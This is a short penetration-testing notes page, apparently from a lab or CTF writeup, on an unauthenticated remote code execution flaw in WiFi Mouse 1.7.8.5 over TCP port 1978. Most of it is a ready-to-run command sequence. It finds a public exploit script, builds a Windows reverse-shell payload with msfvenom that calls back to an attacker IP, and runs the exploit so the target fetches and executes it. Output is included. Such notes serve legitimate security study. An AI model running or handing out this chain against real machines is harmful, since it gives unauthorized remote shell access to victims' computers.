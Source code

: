 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# WiFi Mouse (1978)

**WiFi Mouse** `1.7.8.5`, a Windows server component of a mobile app that lets users control their PC via smartphone (mouse, keyboard, etc.), is vulnerable to **unauthenticated remote code execution** over TCP port `1978` due to insecure command parsing — [CVE-2021-27561](https://nvd.nist.gov/vuln/detail/CVE-2021-27561).

{% code overflow="wrap" %}
```bash
# Search for PoC
$ searchsploit WiFi Mouse
...
WiFi Mouse 1.7.8.5 - Remote Code Execution(v2) | windows/remote/50972.py

# Generate the payload
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.154 LPORT=4444 -f exe -o 1978.exe

# Use the exploit
$ python3 50972.py hermes 192.168.45.154:8888 1978.exe
[+] 3..2..1..

[+] *Super fast hacker typing*
[+] Retrieving payload
[+] Done! Check Your Listener?
```
{% endcode %}
